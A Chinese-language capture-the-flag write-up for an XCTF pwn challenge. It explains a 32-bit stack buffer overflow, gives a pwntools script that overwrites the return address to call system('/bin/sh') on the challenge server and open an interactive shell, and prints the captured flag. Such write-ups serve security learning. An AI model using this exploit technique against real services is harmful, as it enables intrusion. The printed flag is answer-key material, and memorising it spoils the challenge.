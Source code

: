 https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5055&page=1

# 分析

1. checksec查看，简要分析为栈溢出。

   ```
     Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. IDA32打开文件查看，字符串窗口发现/bin/sh，地址为0x084A024。

   ![image-20210807212511452](images\image-20210807212511452.png)

3. 函数窗口发现callsystem函数，地址为0x08048320

   ![image-20210807212652309](images\image-20210807212652309.png)

4. 输入函数，buf长度为0x88，buf后面长度为0x4

   ```
   ssize_t vulnerable_function()
   {
     char buf; // [esp+0h] [ebp-88h]
   
     system("echo Input:");
     return read(0, &buf, 0x100u);
   }
   ```

   

![image-20210807213054247](images\image-20210807213054247.png)

5. python脚本：

   ```
   from pwn import *
   
   payload = b'a'*0x88 + b'a' * 4 + p32(0x08048320) + p32(0) + p32(0x0804A024)
   print(payload)
   
   io = remote('111.200.241.244',60946)
   io.send(payload)
   io.interactive()
   ```

   **在32位程序运行中，函数参数直接压入栈中，调用函数时栈的结构为：调用函数地址 --- 函数返回的地址 -- 参数n -- 参数n-1 -- ... -- 参数1**，**函数的返回地址一般为0**

6. 得到flag： cyberpeace{9eea7a444d61f6a7788acc8f4cf64513}

